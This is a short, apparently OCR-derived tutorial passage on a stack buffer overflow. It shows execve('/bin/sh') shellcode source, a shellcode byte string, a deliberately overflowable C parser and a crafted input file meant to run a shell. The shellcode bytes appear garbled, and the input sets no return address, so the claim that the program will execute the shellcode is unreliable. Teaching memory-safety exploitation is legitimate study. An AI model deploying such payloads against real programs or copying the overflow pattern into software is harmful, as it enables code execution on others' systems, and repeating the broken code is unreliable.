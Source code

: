 ```c
// shellcode.c
void main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Disassemble the shellcode:

```
\xeb\x1f\x5e\x89\x76\x08\x88\x46\x46\x0c\x0b\x89\xf3\x8d\x4e\x08\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\xe8\xdc\xff\xff\xff/bin/sh
```

Now we attack the vulnerable program:

```c
void copy_lower(char *in, char *out) {
    int i = 0;
    while (in[i] != '\0' && in[i] != '\n') {
        out[i] = tolower(in[i]);
        i++;
    }
    out[i] = '\0';
}
int parse(FILE *fp) {
    char buf[5], *url, cmd[128];
    fread(cmd, 1, 256, fp); // fread reads up to 256 bytes from fp
    int header_ok = 0;
    // ...
    url = cmd + 4;
    copy_lower(url, buf);
    printf("URL: %s\n", buf);
}
```

And create the following input file:

```
GET
AAAAAAAAAAAAAAAAAAA\xeb\x1f\x5e\x89\x76\x08\x88\x46\x46\x0c\x0b\x89\xf3\x8d\x4e\x08\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\xe8\xdc\xff\xff\xff/bin/sh
```

When the program reads the input file, it will execute the shellcode.
